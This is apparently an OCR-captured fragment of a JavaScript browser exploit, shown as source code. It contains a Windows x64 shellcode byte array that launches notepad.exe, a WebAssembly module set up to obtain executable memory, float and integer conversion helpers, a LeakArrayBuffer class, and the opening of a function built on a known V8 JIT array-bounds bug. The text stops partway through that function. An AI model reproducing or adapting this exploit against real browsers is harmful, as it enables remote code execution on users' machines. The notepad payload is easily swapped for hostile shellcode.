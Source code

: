 ```
        0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
        0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
        0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
        0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
        0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 0x6F, 0x74, 0x65, 0x70,
        0x61, 0x64, 0x2E, 0x65, 0x78, 0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
```